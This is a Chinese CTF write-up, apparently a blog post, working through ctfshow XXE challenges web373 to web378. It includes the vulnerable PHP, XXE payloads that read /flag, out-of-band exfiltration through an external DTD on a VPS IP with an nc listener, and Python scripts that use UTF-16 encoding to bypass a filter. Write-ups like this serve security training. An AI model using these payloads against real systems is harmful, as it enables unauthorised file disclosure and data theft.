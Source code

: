 ```yaml
---
uuid: ac93b49b-0f5f-1cd2-2999-c81a3a9b81f5
title: XXE
date: 2022-07-04 18:08:17
tags:
  - ctfshow
  - xxe
categories:
   - [Web]
   - [CTF]
---
```

**XXE刷题记录**

![image-20220704180114042](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207041801094.png?x-oss-process=hzy)

<!--more-->

首先得先初步了解一下什么是xxe，推荐下面这个

[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)

[XML与xxe注入基础知识](https://www.cnblogs.com/backlion/p/9302528.html)

# web373（有回显）

正常的xxe

```
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    $ctfshow = $creds->ctfshow;
    echo $ctfshow;
}
highlight_file(__FILE__);    
```

```
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<yu22x>
<ctfshow>&xxe;</ctfshow>
</yu22x>
```

![image-20220416181444576](https://img-blog.csdnimg.cn/img_convert/a5454363c363482bd0629229c7011320.png)

# web374-376(无回显)

无回显xxe可以利用自己的vps带外输出。

> 为区分嵌套实体和实体之间的关系，可以通过单双引号来间隔开，引号中嵌套一个参数实体，其`%`号需要写成：`%`，也可写为16进制的`%`

利用vps外带输出有以下步骤：

test.dtd

```xml
<!ENTITY % dtd "<!ENTITY &#x25; xxe  SYSTEM 'http://150.158.181.145:9999/%file;'> ">
%dtd;
%xxe;
```

然后看这题

```
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

payload

```
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % aaa SYSTEM "http://150.158.181.145/test.dtd">
%aaa;
]>
<root>123</root>
```

![image-20220704174218719](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207041742678.png?x-oss-process=hzy)

监听

```
nc -lvp 9999
```

![image-20220704174357564](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207041743627.png?x-oss-process=hzy)

![image-20220704174422422](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207041744477.png?x-oss-process=hzy)

这几题都是这样，就略了

# web377

```
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

过滤了http

使用utf-16进行绕过

脚本就行了

```
import requests
url = 'http://5cbbc523-7be1-47ce-900a-ff43444fc2e4.challenge.ctf.show/'
payload = '''
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % remote SYSTEM "http://[vps-ip]/xxe.dtd">
%remote;
%send;
]>
'''
payload = payload.encode('utf-16')
rep = requests.post(url=url, data=payload)
print(rep.text)
```

![image-20220704175303954](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207041753008.png?x-oss-process=hzy)

![image-20220704175312827](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207041753886.png?x-oss-process=hzy)

# web378

是一个登陆界面

![image-20220704175415813](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207041754892.png?x-oss-process=hzy)

可以看到是xml形式

![image-20220704175817598](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207041758663.png?x-oss-process=hzy)

poaylaod如下

```
import requests
url = 'http://a4dbaa21-b059-41c9-8ce5-6900f508a9aa.challenge.ctf.show/'
payload = '''
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % remote SYSTEM "http://150.158.181.145/test.dtd">
%remote;
%send;
]>
'''
payload = payload.encode('utf-16')
rep = requests.post(url=url, data=payload)
print(rep.text)
```

![image-20220704175900019](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207041759097.png?x-oss-process=hzy)
